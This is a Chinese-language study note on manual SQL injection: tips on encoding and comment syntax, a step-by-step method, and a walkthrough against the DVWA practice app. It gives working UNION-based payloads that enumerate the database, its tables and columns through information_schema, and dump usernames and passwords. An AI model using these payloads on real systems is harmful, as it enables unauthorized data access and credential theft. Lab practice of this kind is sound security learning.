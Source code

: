 注意：

1. burpsuite中、数据包中更改，很多地方需要url编码替换

​		最好直接用hackbar、网址栏注入

2. 有时候--行，#不行。--和--+似乎一样的效果

3. 先from，后where
4. order by后，select 1,2,3,4 不如 select null,null,null 适配性广。有时候只能输出字符串，有时候只能输出数字，且每个位置能输出的格式也不一定相同，需要尝试













# SQL 注入手工分析步骤

- 判断是否存在注入，注入是字符型还是数字型
(1). 数字型: SQL语句一般不需要闭合 大多数不需要注释符号
(2). 字符型: SQL语句需要闭合 或者需要注释符号

- 猜解SQL查询语句中的字段数及字段顺序
(1). order by: 对结果集按照一个列或者多个列进行排序。
(2). UNION SELECT: 联合查询。

- 获取当前数据库名
(1). database()函数
(2). user()函数

- 获取数据库中的表名
(1). group_concat(table_name)函数
(2). information_schema表

- 获取表中的字段名

- 下载数据



## easy

```
1' order by 2#
```

字段数为2

```
-1' union select 1,user() #
```

权限为root

```
-1' union select 1,database() #
```

数据库名为dvwa

```
-1' union select 1,version() #
```

版本为5.7，为mysql的5.0以上

```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa'#
```

dvwa数据库的两个表名为guestbook，users

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='guestbook' and table_schema='dvwa'#
```

guestbook表的列名为comment_id，comment，name

同理，users表的列名为user_id，first_name，last_name，user，password，avatar，last_login，failed_login

```
1' union select user,pass from dvwa.users#
```


